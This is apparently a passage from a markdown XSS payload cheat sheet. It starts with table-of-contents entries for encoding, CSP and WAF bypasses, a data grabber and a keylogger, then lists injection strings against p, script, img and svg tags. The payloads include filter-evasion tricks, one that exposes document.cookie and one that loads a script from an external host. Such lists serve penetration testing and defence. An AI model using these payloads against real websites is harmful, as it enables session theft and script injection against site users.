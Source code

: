   - [Bypass using Octal encoding](#bypass-using-octal-encoding)
  - [Bypass using Unicode](#bypass-using-unicode)
  - [Bypass using UTF-7](#bypass-using-utf-7)
  - [Bypass using UTF-8](#bypass-using-utf-8)
  - [Bypass using UTF-16be](#bypass-using-utf-16be)
  - [Bypass using UTF-32](#bypass-using-utf-32)
  - [Bypass using BOM](#bypass-using-bom)
  - [Bypass using weird encoding or native interpretation](#bypass-using-weird-encoding-or-native-interpretation)
  - [Bypass using jsfuck](#bypass-using-jsfuck)
- [CSP Bypass](#csp-bypass)
- [Common WAF Bypass](#common-waf-bypass)
- [Exploit XSS](#exploit-xss)
  - [Data grabber for XSS](#data-grabber-for-xss)
  - [Javascript keylogger](#javascript-keylogger)

## XSS in HTML/Applications

### Good Payloads
```
--- <p> ---

cgonzalo"><p style=overflow:auto;font-size:999px onscroll=alert(1)>AAA<x/id=y></p>#y

--- <script> ---

cgonzalo"><scr<script>ipt>alert('XSS')</scr<script>ipt>

cgonzalo"><script>alert(String.fromCharCode(88,83,83))</script>

cgonzalo"><!<script>alert(1)</script>

cgonzalo"><script/x>alert(1)</script>

cgonzalo"><script/src=//Ǌ.₨></script>

-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>

cgonzalo"><\/script><script>alert('XSS')<\/script>

--- <img> ---

cgonzalo"><img/src=x onerror=confirm(8)>

cgonzalo"><img src="x/><script>alert(8)</script>">

cgonzalo"><img src=x onerror=alert('XSS')//

cgonzalo"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

cgonzalo"><img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>

cgonzalo"><img src=x:alert(alt) onerror=eval(src) alt=xss>

cgonzalo"><img src=x "accesskey="x" onclick="confirm(document/*00000*/./*00000*/cookie)"//BBBBBBBBBB=1>

cgonzalo"><--`<img/src=`%20onerror=confirm``>%20--!>

--- <svg> ---

cgonzalo"><svgonload=alert(1)>

```